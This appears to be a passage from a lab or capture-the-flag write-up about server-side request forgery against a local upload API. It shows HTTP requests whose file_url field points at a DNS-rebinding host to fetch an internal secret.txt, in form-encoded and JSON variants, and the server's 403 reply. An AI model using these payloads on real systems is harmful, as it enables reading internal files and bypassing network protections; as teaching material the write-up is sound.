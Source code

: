 <figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

**Original Request:**

```http
POST /api/v3/upload HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
file_url=http://7f000001.d83ad3ce.rbndr.us/secret.txt
```

**Modified Request with JSON Content-Type:**

```http
POST /api/v3/upload HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/json;charset=UTF-8
Content-Length: 59
{"file_url":"http://7f000001.d83ad3ce.rbndr.us/secret.txt"}
```

Even with the content type change and DNS rebinding, success was still elusive, This approach yielded a promising message: "requests to localhost not allowed."

```http
HTTP/1.1 403 FORBIDDEN
Server: Werkzeug/3.0.3 Python/3.12.3
Date: Sat, 27 Jul 2024 09:16:51 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 34
Connection: close

requests to localhost not allowed
```
